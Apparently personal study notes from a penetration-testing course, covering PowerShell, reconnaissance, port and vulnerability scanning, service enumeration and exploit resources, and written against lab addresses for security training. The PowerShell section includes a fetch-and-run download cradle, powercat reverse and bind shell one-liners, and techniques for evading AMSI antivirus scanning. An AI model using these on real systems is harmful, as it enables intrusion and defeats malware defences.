     $b64enc = [Convert]::ToBase64String($byte)
     #+end_quote 
   + base 64 decoding
     #+begin_quote
     $b64str = "grGC8YLJgr+CzQ=="
     $b64dec = [Convert]::FromBase64String($b64str) //to 
     $byte2 = ([System.Text.Encoding]::Default).GetString($b64dec)
     #+end_quote 
    
*** basic syntax
**** $() //Subexpression operator 
     #+begin_quote
     Returns the result of one or more statements. For a single result, returns a scalar. For multiple results, returns an array. Use this when you want to use an expression within another expression.
     #+end_quote
     + ~Folder list: $((dir c:\ -dir).Name -join ', ')~ //Folder list: Program Files, Program Files (x86), Users, Windows

**** @() //Array subexpression operator
     #+begin_quote
     Returns the result of one or more statements as an array. If there is only one item, the array has only one member.
     #+end_quote
     + ~@(Get-CimInstance win32_logicalDisk)~

**** & //Call operator
     #+begin_quote
     Runs a command, script, or script block.
     #+end_quote 

     + ~$c = "get-executionpolicy"; & $c~
     + ~& "./file name with spaces.ps1"~ //invoke the .ps1 script

**** //script block
     #+begin_quote
     A script block returns the output of all the commands in the script block, either as a single object or as an array. 
     You can also specify a return value using the return keyword. The return keyword does not affect or suppress other output returned from your script block. However, the return keyword exits the script block at that line.
     #+end_quote

     + //example:
       #+begin_src
       $sb = {
           param($p1,$p2)
           $OFS=','
           "p1 is $p1, p2 is $p2, rest of args: $args"
       }
       Invoke-Command $sb -ArgumentList 1,2,3,4 //p1 is 1, p2 is 2, rest of args: 3,4 
       &$sb -p2 2 -p1 1 3 //p1 is 1, p2 is 2, rest of args: 3
       &$sb 2 1 3 //p1 is 2, p2 is 1, rest of args: 3
       #+end_src 

**** .. //range operator
     + ~1..10~
     + ~foreach ($a in 1..$max) {Write-Host $a}~
     + ~'a'..'f'~

**** $_ //delay bind operator, or "this" in foreach TODO
     + ~10..1~
     + ~5..-5 | ForEach-Object {Write-Output $_}~

**** , //comma operator
     #+begin_quote
     As a binary operator, the comma creates an array or appends to the array being created. In expression mode, as a unary operator, the comma creates an array with just one member. Place the comma before the member.
     #+end_quote

     + ~$myArray = 1,2,3~
     + ~$SingleArray = ,1~
     + ~Write-Output (,1)[0]~

**** ? //shortcut to where
     + ~1...5 | ? { $_ % 2 }~ //1 to .5 gives 1 and 0; foreach, if [ (this % 2) -ne 0 ], print this; 
      
**** -f //format operator
     #+begin_quote
     Formats strings by using the format method of string objects. Enter the format string on the left side of the operator and the objects to be formatted on the right side of the operator.
     #+end_quote
     
     + ~"{0} {1,-10} {2:N}" -f 1,"hello",[math]::pi~

*** powershell DownloadFile && *DownloadString*
    + ~powershell -c "(new-object System.Net.WebClient).DownloadFile('http://127.0.0.1/wget.exe','./wget.exe')"~
    + ~iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')~ //load the remote script during the session only 
      
*** powerhsell xxd
    Format-Hex -Path <path> -Count <firstNBytesToShow>

*** @Deprecated ~powercat~ //!triggers amsi
    + ~iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')~ //!triggers amsi
    + ~powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1~ //client mode, port 443, ....ps1 as input(file to be transferred)
    + ~powercat -c 10.11.0.4 -p 443 -e cmd.exe~ //reverse shell...but why bother
    + ~powercat -l -p 443 -e cmd.exe~ //bind shell...but why bother

*** amsi evasion (//"this script contains malicious content and has been blocked by your antivirus software")
     + $evil_0 = "amsicontext"
**** evasion 1: concatenation
     + $not_evil = "amsi" + "context"

**** evasion 2: type-casting
     + $not_evil = [char]97 + [char]109 + [char]115 + [char]99
     + use-a-command $not_evil
     + use-a-command ([char]97 + [char]109 + [char]115 + [char]99)

**** evasion 3: variable-insersion
     + $var = "context"
     + $not_evil = "amsi$var"

**** evasion 4: format-string
     + $not_evil = "amsi{0}{1}" -f "con","text"

**** evasion 5: string-replacement
     + $not_evil = "amsiNOTEVIL" -replace "NOTEVIL", "context"

**** use encoding? 
     + simple base64 encoding now still trigger amsi || Windows virus threat protection

** utility tools
*** wireshark //for more filter info check wiki || ref
    + *capture filter*: ~net 192.168.140.0/24~
    + *display filter*: 
      - ip.addr==192.168.140.128
      - ip.src==192.168.140.128
      - ip.dst==192.168.140.128 and tcp.port==1337
      - tcp

*** tcpdump TODO advanced if necessary
    + ~sudo tcpdump -r dump.pcapng | awk -F " " '{print $3}' | sort | uniq -c | head~ //find the top most frequent active address.
    + ~sudo tcpdump -n src host 192.168.140.1 and port 137 -r dump.pcapng~//n for no hostName converting.
    + ~sudo tcpdump -nX dst host 192.168.140.128 -r dump.pcapng~ //X for hex dump.
    + ~sudo tcpdump -nA dst host 192.168.140.128 -r dump.pcapng~ //A for ASCII, useful for capturing web pages.
    + ~sudo tcpdump -nA 'tcp[13]=24'~ //the 14th bytes of tcp header, i.e. the flag, with ACK and PSH on, echo "$((2#00011000))" -> decimal 24, [check man tcpdump]

**** tcpdump capture //maybe verbose
     + ~sudo tcpdump -X -s0 port 80~ //s0 raise the single package-size limit to >256kb.
     + ~sudo tcpdump -i eth0 -n -s0 -vX port 80~ //verbose

*** Fuzzer
    + AFL, libFuzzer, honggfuzz, KAFL(kernel), syscall fuzzer, syzkaller

** TODO practical examples
*** example 1: grap all subdomain, get ip
    1. wget pages html
    2. grab all urls use regex.
       [[./ut_DumpSubdomainFromFile.py]]
    3. loop through the file in the shell:
       #+begin_src sh
while read p; do host $p >> index_hosts_result; done < index_hosts
       #+end_src
     

   //p123 pass
   
*** example2
    //p125 pass
    TODO grep and analyse raw
    
*** example3
    //namp
    *cutycapt*
    
* Book3_Chapter 06 Passive Information Gathering (OSINT) checklist?
   
** osint tools
*** whois enumeration
   #+begin_src bash
whois <domain>
whois <ip>     # more info
   #+end_src
   + whois.arin.net
   + grep name, etc.
     
*** google search pattern(site:<site>, filetype:<php>)
   + ref: [[https://www.exploit-db.com/google-hacking-database][Google Hacking Database]] 
     #+begin_src 
 + ~-filetype:html~ // non-html pages
intitle: "index of" "parent directory"
     #+end_src

*** netcraft
   + [[https://www.netcraft.com/]]
     - Resources, site report
     - Resources, search dns
       
*** recon-ng (may trigger guard.)
   + recon-ng
     - marketplace search <module>
       + [[https://github.com/lanmaster53/recon-ng-marketplace/wiki/API-Keys][open api keys]]
     - marketplace info <module_path>
     - marketplace install <module_path>

     - modules load <module_path>
       + <modulePrompt>> info
     - options set SOURCE megacorpone.com
     - run                                            // results stored as hosts

     - back
     - show
     - show hosts
     - marketplace info recon/hosts-hosts/resolve
     - marketplace install recon/hosts-hosts/resolve
     - modules load recon/hosts-hosts/resolve
     - info
     - run                                             // use stored hosts info
     - show hosts                                      // ip fields are resolved

*** open-source code
   + github, gitlab, sourceforge
     - github:
       + user:<user> filename:users
       + //tools, e.g. Gitrob, Gitleaks
         
*** shodan
   + // interact with and gather info from internet-connected devices.
     
*** security headers
   [[https://securityheaders.com/]]
   + discover missing defensive headers
     
*** ssl server test
   [[https://www.ssllabs.com/ssltest/]]
     
*** pastebin
   [[https://pastebin.com/]]
   + search in it.
     
** user infomation gathering, credential stuffing
*** email, social media account on the official website
    
*** email harvesting
    + theHarvester [[https://github.com/laramies/theHarvester]]
    + theharvester -d megacorpone.com -b google // domain, datasource

*** password dumps that already existed
    + "rockyou" wordlist. [[https://en.wikipedia.org/wiki/RockYou#Data_breach]]
      
** social media tools
*** social searcher
    [[https://www.social-searcher.com/]]
    
** site specific tools
*** twofi
    https://digi.ninja/projects/twofi.php
    + user's twitter feed -> wordlist

*** linkedin2username
    https://github.com/initstring/linkedin2username
    + linkedin -> username list
      
** stackoverflow
   + if an employee ask questions
     
** information gathering frameworks
*** *OSINT Framework*
    https://osintframework.com/
    + *extremely useful*
      
*** TODO maltego
    https://www.paterva.com/buy/maltego-clients.php
    + indispensable tool for large information gathering operations (PWK, p170)

* Book3_Chapter 07 Active Information Gathering
  + port scanning, DNS, SMB, NFS, SMTP, SNMP enumeration.
    
** DNS enumeration TODO recursor
   + dns client <-> DNS recursor <-> DNS infrastructure
   + the DNS infrastructure:
     + cliient:
     #+begin_quote
     The process starts when a hostname is entered into a browser or other application. The browser passes the hostname to the operating system’s DNS client and the operating system then forwards the request to the external DNS server it is configured to use. This first server in the chain is known as the DNS recursor and is responsible for interacting with the DNS infrastructure and returning the results to the DNS client. The DNS recursor contacts one of the servers in the DNS root zone.
     #+end_quote
     + step 1:
     #+begin_quote
     The DNS recursor contacts *one of the servers in the DNS root zone*. The root server then *responds with the address of the server responsible for the zone containing the Top Level Domain (TLD)*.
     #+end_quote
     + step 2:
     #+begin_quote
     Once the DNS recursor receives the address of the TLD DNS server, it *queries it for the address of the authoritative nameserver* for the megacorpone.com domain.
     #+end_quote
     + step 3:
     #+begin_quote
     The authoritative nameserver is the final step in the DNS lookup process and contains the DNS records in a local database known as *the zone file*. It *typically hosts two zones for each domain, the forward lookup zone that is used to find the IP address of a specific hostname and the reverse lookup zone (if configured by the
administrator), which is used to find the hostname of a specific IP address*.
     #+end_quote
     + client:
     #+begin_quote
     Once the DNS recursor provides the DNS client with the IP address for www.megacorpone.com, the browser can contact the correct web server at its IP address and load the webpage.
     #+end_quote
     
*** dns caching
    #+begin_quote
    To improve the performance and reliability of DNS, DNS caching is used to store local copies of DNS records at various stages of the lookup process. It is for this reason that some modern applications, such as web browsers, keep a separate DNS cache. In addition, the local DNS client of the operating system also maintains its own DNS cache along with each of the DNS servers in the lookup process. Domain owners can also control how long a server or client caches a DNS record via the Time To Live (TTL) field of a DNS record.
    #+end_quote
    
*** dns records common types
    + NS - Nameserver records contain the name of the authoritative servers hosting the DNS records for a domain.
    + A - Also known as a host record, the “a record” contains the IP address of a hostname (such as www.megacorpone.com).
    + MX - Mail Exchange records contain the names of the servers responsible for handling email for the domain. A domain can contain multiple MX records.
    + PTR - Pointer Records are used in reverse lookup zones and are used to find the records associated with an IP address.
    + CNAME - Canonical Name Records are used to create aliases for other host records.
    + TXT - Text records can contain any arbitrary data and can be used for various purposes, such as domain ownership verification.
      
*** ~host~, dns forward/reverse lookup
    #+begin_src sh
    host www.megacorpone.com
    host -t mx megacorpone.com
    host -t txt megacorpone.com
    #+end_src
    
**** forward lookup brute force
     + simplified wordlist /usr/share/seclists
       - Much more comprehensive wordlists are available as part of the SecLists project.
       - [[https://github.com/danielmiessler/SecLists]]
       - sudo apt install seclists
     + usage: 
     #+begin_src sh
     cat list.txt    # www ftp mail own paoxy router
     for ip in $(cat list.txt); do host $ip.megacorpone.com; done
     #+end_src
     
**** reverse lookup brute force
     #+begin_quote
     If the DNS administrator of megacorpone.com configured PTR 191 records for the domain, we could scan the approximate range with reverse lookups to request the hostname for each IP.
     #+end_quote
     + usage:
     #+begin_src sh
     for ip in $(seq 50 100); do host 38.100.193.$ip; done | grep -v "not found"
     #+end_src
     
*** dns zone transfers
    #+begin_quote
    A zone transfer is basically a database replication between related DNS servers in which the zone file is copied from a master DNS server to a slave server. The zone file contains a list of all the DNS names configured for that zone. Zone transfers should only be allowed to authorized slave DNS servers but many administrators misconfigure their DNS servers, and in these cases, anyone asking for a copy of the DNS server zone will usually receive one.
    #+end_quote
    + host -l         # list zone, to attemp the zone transfers
    + useage:         # nameserver is already knowned in the ~host~ result
      #+begin_src sh
      # host -l megacorpone.com <nameserver>
      host -l megacorpone.com ns2.megacorpone.com     # success if the nameserver allows the transfer
      #+end_src
    + TODO test script
  
*** *dns enumeration tools*
   
**** DNSRecon (.py script) TODO try zone transfer
    + usage:
      #+begin_src sh
      dnsrecon -d megacorpone.com -t axfr                 # -d <domainname> -t <typeOfEnumeration>
      dnsrecon -d megacorpone.com -D ~/list.txt -t brt    # forward lookup brute force equivalence
      #+end_src
      
**** DNSenum
    + usage:
      #+begin_src sh
      dnsenum zonetransfer.me
      #+end_src

** port scanning
   + steps:
     1. find possible web servers by scanning 80 443 on the network.
     2. run full port scan on them in the background.
        
*** basic, netcat
    
**** netcat, tcp
    #+begin_src sh
    nc -nvv -w 1 -z 10.11.1.220 3388-3390
    #+end_src
    + process: (handshake if success)
      - open: [SYN] -> [SYN, ACK] -> [FIN, ACK]
      - close: [SYN] -> [RST, ACK]

**** netcat, udp
     #+begin_src sh
     nc -nv -u -z -w 1 10.11.1.115 160-162
     #+end_src
     + process: (server response with ICMP destination unreachable if closed, unreliable)
       - filtered by a firewall or device use none standard implementation
         
*** nmap 
    + sudo if need raw sockets
      #+begin_quote
Raw sockets allow for surgical manipulation of TCP and UDP packets.
      #+end_quote
      
**** iptables, monitoring traffic
     + usage:
     #+begin_src sh
     sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT
     sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT
       # --insert <chain>, <rulenum> 1 for topmost, [!] --source <ip>, --jump <rule>(ACCEPT DROP RETURN)
     sudo iptables -I OUTPUT 1 -d 10.11.1.220 -j ACCEPT
     sudo iptables -Z [chain[rulenum]]
       # zero the counters 7 
     sudo iptables -vn -L
       # --numeric, --list [chain], list all rules [of a chain]
     #+end_src
     
**** nmap tcp scan
     + nmap <ip>            # default 1000-port scan, 78KB
     + nmap -p 1-65535 <ip> # all *tcp* ports, 4MB 
     + sudo nmap -sS <ip>   # (not so) stealth/syn scan, 
     + nmap -sT <ip>        # TCP connect scan, default
       - # the connect scan perform TCP handshakes.
       - # hence much slower than -sS since per result only available after the handshake is complete.

**** nmap udp scan
    + sudo nmap -sU 10.11.1.115
      - # for normal ports: use the "ICMP port unreachable" method
      - # for common ports:
        #+begin_quote
        such as port 161, which is used by SNMP, it will send a protocol-specific SNMP packet in an attempt to get a response from an application bound to that port.
        #+end_quote

    + sudo nmap -sS -sU 10.11.1.115  # tcp && udp scan

**** network sweeping
     + usage:
     #+begin_src sh
nmap -sn 10.11.1.1-254                        # (no port scan)
nmap -v -sn 10.11.1.1-254 -oG ping-sweep.txt  # greppable output
grep Up ping-sweep.txt | cut -d " " -f 2

nmap -p 80 10.11.1.1-254 -oG web-sweep.txt
nmap -sT -A --top-ports=20 10.11.1.1-254 -oG top-port-sweep.txt 
  # A for enabling OS detection, version detection, script scanning and traceroute
  # the top ports are defined in: /usr/share/nmap/nmap-services
     #+end_src

**** TODO more host discovery technique
     https://nmap.org/book/man-host-discovery.html

**** os fingerprinting
     #+begin_quote
     Nmap has a built-in feature called OS fingerprinting, which can be enabled with the *-O* option. This feature attempts to guess the target’s operating system by inspecting returned packets. This is possible because operating systems often have slightly different implementations of the TCP/IP stack (such as varying default TTL values and TCP window sizes) and these slight variances create a fingerprint that Nmap can often identify.
     #+end_quote

     + usage:
     #+begin_src sh
sudo nmap -O 10.11.1.220
     #+end_src
     
**** banner grabbing/service enumeration
     + usage
     #+begin_src sh
nmap -sV -sS -A 10.11.1.220    # -sV version detection, or banners
     #+end_src
     + TODO track size

**** nmap scripting engine (NSE)
     + /usr/share/nmap/scripts
     + usage:
     #+begin_src sh
nmap 10.11.1.220 --script=smb-os-discovery                   # base usage
nmap --script=dns-zone-transfer -p 53 ns2.megacorpone.com    # zone transfer
nmap --script-help dns-zone-transfer                         # script help
     #+end_src
     
***** TODO execise
      + list neighbours
      + -sn and find server
      + nse, smb-os...

      + zone transfer on -sn result | host
      + nse ip

      + wireshark, udp scan packet
      + wireshark, SYN vs connect scan packet
        
*** masscan
    #+begin_quote
Masscan is arguably the fastest port scanner; it can scan the entire Internet in about 6 minutes, transmitting an astounding 10 million packets per second! While it was originally designed to scan the entire Internet, it can easily handle a class A or B subnet, which is a more suitable target range during a penetration test.
    #+end_quote
    + usage:
    #+begin_src sh
sudo masscan -p80 10.0.0.0/8                                 # base usage
sudo masscan -p80 10.11.1.0/24 --rate=1000 -e tap0 --router-ip 10.11.0.1
  # rate of package transmission, -e <interface>, --router-ip <gateway>
    #+end_src
    
** TODO server message block (SMB) enumeration (Windows only?)
   + about
     - bad bug records due to "complex implementation and open nature" (PWK, p194)
     - [[http://markgamache.blogspot.ca/2013/01/ntlm-challenge-response-is-100-broken.html]]
     - That said, the SMB protocol has also been updated and improved in parallel with Windows
Operating Systems releases (PWK, p194).
     
*** scanning for the NetBIOS service
    + about NetBIOS:
      #+begin_quote
The NetBIOS service listens on TCP port 139 as well as several UDP ports. It should be noted that SMB (TCP port 445) and NetBIOS are two separate protocols. NetBIOS is an independent session layer protocol and service that allows computers on a local network to communicate with each other. While modern implementations of SMB can work without NetBIOS, NetBIOS over TCP (NBT) is required for backward compatibility and is often enabled together. For this reason, the enumeration of these two services often goes hand-in-hand. These can be scanned with tools like nmap, using syntax similar to the following:
      #+end_quote

    + src: 
      - with nmap:
      #+begin_src sh
nmap -v -p 139,445 -oG smb.txt 10.11.1.1-254
      #+end_src
      - with more specialized tools:
      #+begin_src sh
sudo nbtscan -r 10.11.1.0/24
  # -r Use local port 137(UDP?) for scans. Win95 boxes respond to this only.
      #+end_src
      
**** TODO with Nmap SMB NSE scripts (practice p197)
     #+begin_src sh
ls -1 /usr/share/nmap/scripts/smb*
nmap -v -p 139, 445 --script=smb-os-discovery 10.11.1.227
nmap -v -p 139,445 --script=smb-vuln-ms08-067 --script-args=unsafe=1 10.11.1.5
     #+end_src
       
** NFS enumeration
   + about NFS:
   #+begin_quote
    Network File System (NFS) is a distributed file system protocol originally developed by Sun Microsystems in 1984. It allows a user on a client computer to access files over a computer network as if they were on locally-mounted storage.
    NFS is often used with UNIX operating systems and is predominantly insecure in its implementation. It can be somewhat difficult to set up securely, so it’s not uncommon to find NFS shares open to the world. This is quite convenient for us as penetration testers, as we might be able to leverage them to collect sensitive information, escalate our privileges, and so forth.
   #+end_quote
   
*** TODO scanning for NFS shares p197
    + the TCP port 111
    #+begin_quote
    Both *Portmapper* and *RPCbind* run on TCP port 111. RPCbind maps RPC services to the ports on which they listen. RPC processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve.
    The client system then contacts rpcbind on the server with a particular RPC program number. The
rpcbind service redirects the client to the proper port number (often TCP port 2049) so it can communicate with the requested service. We can scan these ports with nmap using the following syntax:
      #+end_quote
    + src:
      #+begin_src sh
nmap -v -p 111 10.11.1.1-254
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254
  # nse script, rpcinfo. Connects to portmapper and fetches a list of all registered programs.
      #+end_src

      
*** nmap NFS NSE scripts
    + src:
      #+begin_src sh
ls -1 /usr/share/nmap/scripts/nfs*
nmap -p 111 --script nfs* 10.11.1.72
  # wildcard, run multiple NSE scripts

# Nmap scan report for 10.11.1.72
# PORT
#  STATE SERVICE
# 111/tcp open rpcbind
# | nfs-showmount:
# |_ /home 10.11.0.0/255.255.0.0

sudo mount -o nolock 10.11.1.72:/home /mnt     # -o <mountOptions>, nolock(man 5 nfs)
cd /mnt && ls
      #+end_src
      
** SMTP enumeration : Simple Mail Transport Protocol
   + TODO VRFY && EXPN
   + about SMTP
   #+begin_quote
We can also gather information about a host or network from vulnerable mail servers. The Simple Mail Transport Protocol (SMTP) supports several interesting commands, such as VRFY and EXPN. A VRFY request asks the server to verify an email address, while EXPN asks the server for the membership of a mailing list. These can often be abused to verify existing users on a mail server, which is useful information during a penetration test. 
   #+end_quote
   + src:
     #+begin_src sh
nc -nv 10.11.1.217 25
# (UNKNOWN) [10.11.1.217] 25 (smtp) open
# 220 hotline.localdomain ESMTP Postfix
VRFY root
# 252 2.0.0 root
VRFY idontexist
# 550 5.1.1 <idontexist>: Recipient address rejected: User unknown in local recipient table
     #+end_src
   + TODO [[./ut_SMTPEnumerationAuto.py]]

** SNMP enumeration : Simple Network Management Protocol : UDP 161
   + about SNMP
   #+begin_quote
   Over the years, we have often found that the Simple Network Management Protocol (SNMP) is not well-understood by many network administrators. This often results in SNMP misconfigurations, which can result in significant information leakage.

   SNMP is based on UDP, a simple, stateless protocol, and is therefore susceptible to IP spoofing and replay attacks. In addition, the commonly used SNMP protocols 1, 2, and 2c offer no traffic encryption, meaning that SNMP information and credentials can be easily intercepted over a local network. Traditional SNMP protocols also have weak authentication schemes and are commonly left configured with default public and private community strings.
   #+end_quote

*** the SNMP MIB tree : Management Information Base 
    + about MIB
    #+begin_quote
The SNMP Management Information Base (MIB) is a database containing information usually related to network management. The database is organized like a tree, where branches represent different organizations or network functions. The leaves of the tree (final endpoints) correspond to specific variable values that can then be accessed, and probed, by an external user.
    #+end_quote
    + more info:
    [[https://www.ibm.com/support/knowledgecenter/ssw_aix_71/commprogramming/mib.html]]
    
**** find SNMP hosts
    + src:
    #+begin_src sh
sudo nmap -sU --open -p 161 10.11.1.1-254 -oG open-snmp.txt
    #+end_src
    + alternative tools, onesixtyone : fast and simple SNMP scanner
      #+begin_quote
which will attempt a brute force attack against a list of IP addresses. First we must build text files containing community strings and the IP addresses we wish to scan:
      #+end_quote
      - src:
      #+begin_src sh
echo public > community
echo private >> community
echo manager >> community
for ip in $(seq 1 254); do echo 10.11.1.$ip; done > ips
onesixtyone -c community -i ips
  # -c <communityfile>, -i <ipFile>
      #+end_src
      
**** TODO (practice) Windows SNMP enumeration : tool : snmpwalk
     #+begin_quote
     We can probe and query SNMP values using a tool such as snmpwalk provided we at least know the SNMP read-only community string, which in most cases is “public”.
     #+end_quote

     + src:
     #+begin_src sh
snmpwalk -c public -v1 -t 10 10.11.1.14
  # -c <communityStr>, -v <version>, -t <timeout>, <ip>, <MIBString>
snmpwalk -c public -v1 -t 10 10.11.1.14 10.11.1.14 1.3.6.1.4.1.77.1.2.25
  # enumeration  windows users : svUserTable
snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
  # Enumerating Running Windows Processes : hrSWRunEntry
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
  # Enumerating Open TCP Ports : tcpConnEntry
snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
  # Enumerating Installed Software : hrSWInstalledName
     #+end_src
     
TODO
+ how to know what --script-args
  
* Book3_Chapter 8 Vulnerability Scanning
  + // overview of automated scanning, major tools : Nessus && Nmap
    
** Vulnerability Scanning Overview and Considerations
   
*** How Vulnerability Scanners Work
    1. Detect if a target is up and running.
    2. Conduct a full or partial port scan, depending on the configuration.
    3. Identify the operating system using common fingerprinting techniques.
    4. Attempt to identify running services with common techniques such as banner grabbing, service behavior identification, or file discovery.
    5. Execute a *signature-matching process* to discover vulnerabilities.
    #+begin_quote
    As a part of this signature-matching process, many scanners use banner grabbing, a simple technique where text strings generated during an initial interaction with an application are obtained and analyzed. Some applications generate very specific banners, such as OpenSSH, which may return “SSH-2.0-OpenSSH_7.9p1 Debian-10”, allowing us to precisely pinpoint the application version, while others, such as Apache Tomcat versions 4.1.x to 8.0.x, return a generic HTTP header of “Apache-Coyote/1.1”. 

    Most automated scanners inspect a wide variety of other target information during the signature-matching process. Nevertheless, even a strong signature match does not guarantee the presence of a vulnerability. This means automated scanners can generate quite a few false positives and by contrast, false negatives, in which a vulnerability is overlooked because of a signature mismatch. False positives and negatives can also occur because of backporting, in which package maintainers "roll back" software security patches to older versions. Backporting may result in the scanner flagging software as a vulnerable version when the vulnerability has actually been repaired.
    #+end_quote
    
*** know the target
    + the traffic volume. Throttle scan speed && use timeout at first, increace speed till reaching quality-speed balance.
    + network position.
      #+begin_quote
      Finally, our network positioning can affect target visibility. For example, a typical vulnerability scanner will attempt to discover targets with a ping sweep or ARP scan.224 However, Internet connected targets would not be able to receive ARP traffic from external subnets and may block ICMP (ping) requests,225 meaning the scanner could miss the targets entirely if it has been configured to rely solely on these discovery options.
      #+end_quote
    
*** authenticated vs unauthenticated scanning
    
**** authenticated scan
     #+begin_quote
     Authenticated scans generate a wealth of additional information and produce more accurate results at the expense of a longer scan time. Although an authenticated scan can be used during a penetration test (using discovered credentials, for example), it is more commonly used during the patch management process.
     #+end_quote
    + linux: ssh login as a user
    + windows:
      - Windows Management Instrumentation (WMI) + a domain/local account with remote management permissions.
        [[https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi]]
      - Other factors that may block authentication:
        + User Account Control (UAC):
          [[https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-
account-control-works]]
        + firewall settings
      #+begin_quote
      ...once access is properly configured, most scanners analyze the *system configuration, registry settings, and application and system patch levels*. They also review *files in the Program Files directories* as well as *all supporting executables and DLLs in the Windows folder*, all in an attempt to detect potentially vulnerable software.
      #+end_quote

** Vulnerability Scanning with Nessus
   #+begin_quote
   ...a popular vulnerability scanner that supports a staggering 130,000 plugins228 (vulnerability checks) at the time of this writing. While originally developed as an open source application, in 2005 the source was closed. The change to a closed source model resulted in forks of the open source project, and to the release of OpenVAS. There are many commercial and open source vulnerability scanners with various strengths and weaknesses.
   However, Nessus is a quite capable industry standard, and the free “Essentials” version allows us to scan up to 16 IPs. It gives us insight into how to use the full commercial version without time limits or other constraints. The overall concepts discussed in this section will generally apply to just about any other commercial scanner as well.
   #+end_quote
   + pass? p210~
   + TODO wireshark the Nessus traffic, unathenticated && authenticated.
   + ~p236
     
** Vulnerability Scanning with Nmap : NSE
   #+begin_quote
   As an alternative to Nessus, we can also use the Nmap Scripting Engine (NSE) to perform automated vulnerability scans. While NSE is not a full-fledged vulnerability scanner, it does have a respectable library of scripts that can be used to detect and validate vulnerabilities. NSE scripts are written in Lua and range in functionality from brute force and authentication to detecting and exploiting vulnerabilities. For these purposes we will focus on the scripts in the “vuln” and “exploit” categories, as the former detects a vulnerability and the latter attempts to exploit it.
   However, there is overlap between these categories and some “vuln” scripts may essentially run stripped-down exploits. For this reason, scripts are also further categorized as “safe” or “intrusive” and we should take great care when executing the latter because they may crash a remote service or take down the target.
   #+end_quote
   + src:
     #+begin_src sh
cd /usr/share/nmap/scripts/
head -n 5 script.db                           # the index to all the scripts
cat script.db | grep '"vuln"\|"exploit"'
sudo nmap --script vuln 10.11.1.10
  # run all scripts in the “vuln” category
     #+end_src

* Book3_Chapter 10 Buffer Overflow
** basic
   + ? x64 memory range (low 0x00000000 -> high 0x7FFFFFFF)
   + the stack, LIFO, the return address at bottom.
     - an example *stack frame*:
       | function A return address |   |
       | input param 1             |   |
       | input param 2             |   |
       
*** the x86 register and their nomenclature
    + EAX = (. + AX); AX = (AH + AL)
      - EAX: extra, 32-bit register
      - AX(in EAX): lower 16-bit register
      - AH(in AX): higher 8-bit register
      - AL(in AX): lower 8-bit register
    + the table of x86 register structure
      | 32-bit | lower 16 | higher 8 | lower 8 |
      |--------+----------+----------+---------|
      | EAX    | AX       | AH       | AL      |
      | EBX    | BX       | BH       | BL      |
      | ECX    | CX       | CH       | CL      |
      | EDX    | DX       | DH       | DL      |
      | ESI    | SI       | -        | -       |
      | EDI    | DI       | -        | -       |
      | EBP    | BP       | -        | -       |
      | ESP    | SP       | -        | -       |
      | EIP    | IP       | -        | -       |

      + E[ABCD]X, ESI, EDI: often used as general purpose registers to store temporary data, [[https://wiki.skullsecurity.org/Registers][more info on register (Skull Security, 2012)]] but the primary purpose are as below (quoted OSCP p348):
        - EAX (accumulator): *Arithmetical and logical* instructions
        - EBX (base): Base pointer of the *data section*.
        - ECX (counter): Loop, shift, and rotation counter
        - EDX (data): I/O port addressing, multiplication, and division
        - ESI (source index): Pointer addressing of data and source in string copy operations
        - EDI (destination index): Pointer addressing of data and destination in string copy operations
        - *ESP* (stack pointer): most recently referenced location on the stack(pointer to the *(downmost if stack grow downwards)/lower address* of the stack)
        - *EBP* (base pointer): points to the *base/topmost if stack grows downwards/higher address* of the stack when a function is called, provide easy reference for the function to its own stack frame (via offsets). i.e. the (offset 0 pointer)
        - *EIP* (instruction pointer): points to the *next* instruction to be executed.
          
*** TODO the *function prologue*
    + [[https://www.youtube.com/watch?v=75gBFiFtAb8][x86 Assembly Crash Course(by HackUCF)]]
    + ? the $ESP, $EBP, $EIP change, during call -> leave -> ret.
      #+begin_quote
      [ebp+0xc]  ; contains parameter 1, etc
      [ebp+0x8]  ; contains parameter 0
      [ebp+0x4]  ; contains return address
      [ebp]      ; contains prev-EBP      
      #+end_quote
      
*** the example:
    + [[./staceOverflow/so_Basic.c][so_Basic.c]]

      
** DEP, ASLR, and CFG
   + Data Execution Prevention(DEP): raise an exception when code from data pages executed.
   + Address Space Layout Randomization(ASLR): randomize the base address of loaded applications and DLLs on system reboot.
   + Control Flow Guard(CFG): ?




* Book3_Chapter 14 Locating Public Exploits
  
** Online Exploit Resources
*** The Exploit Database
    [[https://www.exploit-db.com/]]
    
*** SecurityFocus Exploit Archives
    [[https://www.securityfocus.com/]]
    
*** Packet Storm
    [[https://packetstormsecurity.com/]]

** Offline Exploit Resources
    //TODO
    
*** SearchSploit
    + src
    #+begin_src sh
sudo apt update && sudo apt install exploitdb
ls /usr/share/exploitdb/
searchsploit [-o]                             # overflow the window
searchsploit remote smb microsoft windows
searchsploit [-x | -m]                        # examine | mirror to $cwd
    #+end_src
    
*** Nmap NSE scripts
    + src
    #+begin_src sh
cd /usr/share/nmap/scripts
grep Exploits *.nse
nmap --script-help=clamav-exec.nse
    #+end_src
    
*** The Browser Exploitation Framework (BeEF)
    + src
    #+begin_src sh
sudo beef-xss                                 # start service
    #+end_src
    + TODO usage

*** the Metasploit Framework
    + src
    #+begin_src sh
sudo msfconsole -q                            # quiet
search ms08_067
search -h                                     # help
    #+end_src
    + TODO usage
      
*** //TODO p451

* Book3_Chapter 15 fixing the exploit
** TODO bo, manual to find the address quick
** TODO use metasploit and read different ver. of code
   
** TODO the last bit of calloc (memset + paddin g)
   
** TODO lab c p467
   
* Book3_Chapter 16 file transfers
  
** summary
   + src:
   #+begin_src sh
python -m SimpleHTTPServer 80 # python 2
python -m http.server [-h] [--bind IP] [--directory DIR] [PORT]
  # python 3
  # curl -o o.sh 10.10.0.1/o.sh
  # axel -a -n 10 -o o.pdf 10.10.0.1/o.pdf
   #+end_src
  
